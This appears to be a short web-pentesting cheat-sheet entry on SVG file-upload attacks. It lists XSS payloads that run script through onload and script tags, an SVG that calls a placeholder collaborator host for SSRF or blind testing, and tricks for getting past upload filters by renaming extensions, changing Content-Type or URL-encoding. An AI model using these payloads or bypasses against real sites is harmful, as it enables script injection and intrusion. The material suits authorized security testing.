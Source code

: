 ```svg
<!-- onload alert -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>

<!-- script tag -->
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>

<!-- external image -> useful for SSRF/blind testing -->
<svg xmlns="http://www.w3.org/2000/svg">
  <image href="http://YOUR-COLLAB.DOMAIN/track?test=svg"/>
</svg>
```
- Bypass:
  - Change `exploit.svg` to `exploit.svg.png` or `exploit.svg.jpg`
  - Modify `Content-Type` to `image/svg+xml` or `text/xml`
  - URL-encode `exploit%2Esvg` or just add **spaces/newlines**
